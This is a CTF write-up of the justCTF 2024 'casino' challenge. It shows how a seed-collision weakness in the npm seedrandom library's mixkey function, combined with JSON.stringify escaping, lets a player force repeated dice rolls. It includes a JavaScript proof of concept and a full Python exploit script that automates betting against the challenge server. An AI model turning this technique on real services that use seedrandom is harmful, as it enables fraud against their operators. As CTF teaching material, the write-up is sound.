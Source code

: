 Author: 0x6fe1be2

Version 19-06-24

[TOC]

# [justCTF 2024 teaser](https://ctftime.org/event/2342) (15.06-16.06)

## casino
Category: MISC, WEB

Points: 394 (7 Solves)

Teammates: lavish, kdm, profiluefter

> Although the odds of winning are rigged, this casino is 100% fair! Can you win against the house?
> + http://casino.web.jctf.pro
>  + https://s3.cdn.justctf.team/95d9162d-abfc-4aac-8aed-b30a4d90c773/casino_docker.tar.gz  

### TL;DR

the npm package `seedrandom` has a collision vulnerability in `mixkey(seed, key)`, that can be abused to generate collisions in the generated seeds. This is exploited to create reoccuring rolls

### Overview

The challenge is a simple node js application that allows us to register for an account an play dice against the server.

```
.
├── Dockerfile
├── app.js
├── casino_docker.tar.gz
├── docker-compose.yaml
├── package.json
└── static
    ├── home.html
    ├── index.html
    ├── js
    │   ├── dice.js
    │   ├── main.js
    │   └── provablyFair.js
    ├── login.html
    └── provably-fair.html
```

We start with a balance of 1000 and need to aquire:

![one billion dollars](https://external-preview.redd.it/zoHY8xZQBX1jP5x8ZokujiQTh9VfhJHfgjMf1gFBalM.jpg?auto=webp&s=5651d4db504fe41ae3344e3d8fcdf563a8c6057e)

this is infeasible by pure luck so lets look at the code (or scroll through the website `/provably-fair.html`):

```js
app.post("/bet", (req, res) => {
    ...
    
    if (typeof clientSeed != "string" || clientSeed.length != 64) {
        res.json({ "error": "Invalid client seed!" })
        return
    }
    
    ...

    let roll = (seedrandom(JSON.stringify({
        serverSeed: req.user.serverSeed,
        clientSeed,
        nonce: req.user.nonce++
    })).int32() >>> 0) % 6 + 1

    ...
});

```

this uses the values`req.user.serverSeed`, `clientSeed` and `req.user.nonce` to generate a object that is turned into string using`JSON.stringify` for each bet. Notable observation are:  

+ serverSeed is securely randomly generated (and not changed) and 64 bytes long
+ clientSeed is provided for the user for each bet and 64 bytes long
+ nonce starts at 0 and get's incremented for each bet


We can also see that the `seedrandom` package ([npmjs](https://www.npmjs.com/package/seedrandom)) is used to generate the random value and role. 

Looking through the source code and the closed issues we find some interesting stuff, notably: [ Strings consisting of a repeated pattern cause collisions #63 ](https://github.com/davidbau/seedrandom/issues/63) and even though this isn't the intended vulnerability it's a good indecator that the library might have more issues.


### Vulnerability

Let's look at the source code of seedrandom, and we quickly find this function:

[seedrandom.js](https://github.com/davidbau/seedrandom/blob/released/seedrandom.js#L179)

```js
...
function mixkey(seed, key) {
  var stringseed = seed + '', smear, j = 0;
  while (j < stringseed.length) {
    key[mask & j] =
      mask & ((smear ^= key[mask & j] * 19) + stringseed.charCodeAt(j++));
  }
  return tostring(key);
}
...
```

This is called using an empty list for `key` and the `seed` supplied from directly calling seedrandom. The mask value is `0xff` so basically a one byte mask. The code seems very basic and is not really trying to prevent any collision, but because it's kind of a big one liner it might not be easy to understand, so let's simplify it:

```js
...
function mixkey(seed, key) {
  var stringseed = seed + '';
  var smear = 0;
  var j = 0;
  while (j < 0x100 &&j < stringseed.length) {
	\\ smear is always 0 for first round
    key[mask & j] = mask & stringseed.charCodeAt(j);
    j++;
  }
  while (j < stringseed.length) {
  	smear ^= key[mask & j] * 19;
    key[mask & j] = mask & (smear + stringseed.charCodeAt(j));
    j++;
  }
  return tostring(key); \\ create 255 length string from byte array
}
...
```

as we can see the seed wraps arround after 0x100 characters and 'insecurly' combines the values, especially if we consider that `stringseed.charCodeAt(j)` can return values larger than 0x100.

so let's try to create collisions:

### PoC

this is a simple PoC code that creates collisions using our prefix (in this case we can just use any serverSeed) and a predictable suffix.

```js
const seedrandom = require('seedrandom')
mask = 0xff
prefix = '{"serverSeed":"24fc5b5e3a5bd0aa85b1cc9c116eef52feeed884676173bfd1d725741b213d33","clientSeed":"'
rands = crypto.randomBytes(0x100/2).toString("hex")
suffix1='","nonce":0}'
suffix2='","nonce":1}'
ssize = suffix1.length

a = prefix + rands + suffix1

let smear = 0

for(let i = 0; i < a.length-0x100-ssize; i++) 
  smear ^= (a.charCodeAt(i)*19) & 0xff

let inject = ''  
let csmear = smear

for(let i = a.length-ssize; i < a.length; i++){
  let j = 0
  smear ^= (a.charCodeAt(i-0x100)*19) & 0xff
  for(; j < 0x100; ++j){
    if(((a.charCodeAt(i)+smear)&0xff) == ((suffix2.charCodeAt(i-a.length+ssize)+(csmear^(j*19)))&0xff)) {
      break;
    }
  }
  
  if(j == 0x100)
    console.log('no solution')

  inject += String.fromCharCode(j)
  csmear ^= (j * 19) & 0xff
}

b = prefix + inject + rands.substring(inject.length) + suffix2

console.log(seedrandom(a).int32())
console.log(seedrandom(b).int32())

```

so now that we can create a collision there is only one remaining problem, for a wrap arround we need at least 0x100 (256) bytes and in order to align the predictable suffix with our user controlled value we need our user controlled value to be about 0x100 by itself, but it's limited to 64, so how do we do this?

### json.dumps vs JSON.stringify

JSON stringify actually escapes certain string, notably these:

```js
>> JSON.stringify('\0') \\ length 6
'"\\u0000"' 

>> JSON.stringify('') \\ length 2
'""' 
```

which we can use to increase the size of our client_seed to (and above) the desired length of 0x100.

Sadly i ran into an issue here, I wrote my exploit in python and hoped that `json.dumps` creates the same strings as `JSON.stringify`, which is not the case, and can easily be tested like this:

```js
for(let i = 0; i < 0x1000; i++)
  if(JSON.stringify(String.fromCharCode(i)).length != 3)
    console.log(i)
```

and for python

```python
import json
for i in range(0x100):
	if json.dumps(chr(i)) != 3:
		print(i)
```

notably all charcters after 0x7f are unicode escaped to 6 bytes in python, which is not the case for js.

so we just create a comparable list ourselves using this:

```python
printables = list(filter(lambda x: chr(x) not in ('"', '\\'), range(32, 0x1001)))
```

We can now combine all our techniques to write an exploit and get the flag.

### Exploit

Flag: `justCTF{n0_w4y__h0w_1ucky_4re_y0u??}`

<details>

```python
#!/usr/bin/env python3

import requests
import random
import string
import json
import subprocess


URL = 'http://casino.web.jctf.pro'
# URL = 'http://localhost:3030'

def gen_random(length: int, alphabet: str = string.ascii_lowercase) -> str:
  return ''.join(random.choices(alphabet, k=length))

def reg_user(session, username: str, password: str):
  data = {
    'username': username,
    'password': password
  }
  r = session.post(f'{URL}/register', data=data)
  
  assert r.status_code == 200


def get_info(session):
  return session.get(f'{URL}/info').json()


def bet(session, amount: int, guess: int, client_seed: str):
  data = {
    'bet': amount,
    'guess': guess,
    'clientSeed': client_seed
  }
  r = session.post(f'{URL}/bet', data=data)
  
  assert r.status_code == 200
  return r.json()

def mixkey(seed, key):
  mask = 0xff
  stringseed = seed + ''
  smear = 0
  j = 0
  while j < len(stringseed):
    smear ^= key[mask & j] * 19
    key[mask & j] = mask & (smear + ord(stringseed[j]));
    j += 1
  return ''.join(chr(x) for x in key);

printables = list(filter(lambda x: chr(x) not in ('"', '\\'), range(32, 0x1001)))

rands = list(gen_random(64))

i = 0
while (rsz := len(json.dumps(''.join(rands)))) != 0x102:
  if rsz < 0x102:
    i -= 1
    rands[i] = '\0'
  else:
    rands[i] = '"'

rands = ''.join(rands)
rands_stringify = json.dumps(rands)[1:-1]

def gen(n1=0, cnt=9, prefix='{"serverSeed":"24fc5b5e3a5bd0aa85b1cc9c116eef52feeed884676173bfd1d725741b213d33","clientSeed":"'):

  suffix1='","nonce":%d}' % n1
  outs = [rands]

  for i in range(1, cnt+1):
    suffix2 = '","nonce":%d}' % (n1 + i)
    assert len(suffix1) == len(suffix2)
    ssize = len(suffix1)

    a = prefix + rands_stringify + suffix1

    smear = 0

    for i in range(len(a)-0x100-ssize):
      smear ^= (ord(a[i])*19) & 0xff

    inject = ''  
    csmear = smear

    for i in range(len(a)-ssize, len(a)):
      j = 0
      char = -1
      smear ^= (ord(a[i-0x100])*19) & 0xff
      for j in printables:
        if(((ord(a[i])+smear)&0xff) == ((ord(suffix2[i-len(a)+ssize])+(csmear^(j*19)))&0xff)):
          char = j
          break;
      
      if(char == -1):
        print('no solution')
        exit(1)

      inject += chr(char)
      csmear ^= (j * 19) & 0xff

    clash = inject + rands[len(inject):]
    
    b = prefix + json.dumps(clash)[1:-1] + suffix2

    # print(a)
    # print(b)

    outs.append(clash)

  return outs

while True:
  username = gen_random(10)
  password = gen_random(12, alphabet=string.ascii_letters + string.digits)

  session = requests.Session()
  reg_user(session, username, password)

  guess = -1
  for s in gen(0):
    bet_data = bet(session, 100, guess if guess != -1 else 1, s)
    print(bet_data, end='\n')

    if guess == -1:
      guess = bet_data['roll']

  if bet_data['balance'] <= 1700:
    continue

  for i in range(10, 1000000, 10):
    guess = -1 
    for s in gen(i):
      bet_size = bet_data['balance'] // 4 if guess != -1 else 1
      bet_data = bet(session, bet_size, guess if guess != -1 else 1, s)
      print(bet_data, end='\n')

      if bet_data['balance'] < 1000:
        break 

      if guess == -1:
        guess = bet_data['roll']

      if bet_data['balance'] >= 1e9:
        r = session.get(f'{URL}/flag')
        print(r.text)
        exit(0)

    if bet_data['balance'] < 1000:
      break 

```

</details>
